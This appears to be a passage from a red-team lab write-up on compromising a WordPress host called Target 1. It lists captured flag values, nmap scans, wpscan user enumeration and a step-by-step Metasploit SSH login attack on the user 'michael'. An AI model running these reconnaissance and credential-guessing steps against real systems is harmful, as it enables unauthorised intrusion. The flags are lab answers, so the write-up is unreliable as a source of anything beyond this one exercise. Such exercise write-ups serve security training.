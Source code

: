 
## Exploitation
The Red Team was able to penetrate Target 1 and retrieve the requested confidential data.  

### **Target 1**
**Confidential data located:**
- **flag1**: flag1{b9bbcb33e11b80be759c4e844862482d}
  - Navigated to /var/www/html 
  - `find -iname “flag*” *`
  - Located in /var/www/html/service.html
- **flag2.txt**: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
  -File found in /var/www
- **flag3**: flag3{afc01ab56b50591e7dccf93122770cd2}
- **flag4.txt**: flag4{715dea6c055b9fe3337544932f2941ce}
  - MySQL: `select * FROM wp_posts WHERE post_content like “%flags%”;`
  - flag4.txt also found in /var/www

**Process of exploitation:**
1. **Scan and Enumerate** 
 - Used a series of scans, as detailed above in vulnerabilities section:
  - Overview of network:
    `nmap 192.168.1.0/24`
  - In-depth for Target 1:
    `nmap -A 192.168.1.110`
  - Scan of Wordpress (results included above):
    `wpscan —url http://192.168.1.110/wordpress —enumerate vp, u —output wpscantarget1`
    #enumerates users: michael and steven

  - To find password:
  - Used Metasploit auxiliary/scanner/ssh/ssh_login
    - `msfconsole`
    - `search ssh`
    - `use 18`
    - `options`
    - `set USERNAME michael`	
    - `set RHOSTS 192.168.1.110`
    - `set USER_AS_PASS true`
    - `set VERBOSE true`
    - `exploit`

      ![michael_options](P3_Images/P3T1_msfconsole_options_michael.png)

